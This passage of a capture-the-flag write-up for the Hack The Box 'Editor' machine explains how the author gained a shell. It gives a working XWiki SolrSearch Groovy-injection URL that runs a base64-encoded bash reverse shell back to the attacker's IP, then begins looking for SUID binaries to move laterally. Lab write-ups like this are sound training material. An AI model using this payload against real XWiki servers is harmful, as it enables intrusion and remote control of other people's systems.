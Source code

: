 ```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41NS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}".execute(){{/groovy}}{{/async}}
```
>Note that without the base64 encoding, the rev shell doesn't hit back. You could use `BusyBox` rev shell too. Find your way.
{: .prompt-warning }

![Here](assets/htb-editor-4.png)

In here the connection was 
- Established for the first time using the base64 encoding. 

- And then Didn't hit back in the second listener when using cleartext rev shell payload.

>So we're in as user `xwiki` and we need to move laterally to user `Oliver` to get the user flag.
{: .prompt-tip }

# Lateral Movement: User Flag 

Trying to find some binaries with `SUID` permissions didn't lead to something.
```bash
find / -perm -4000 2>/dev/null
```
Also lead to nothing. 
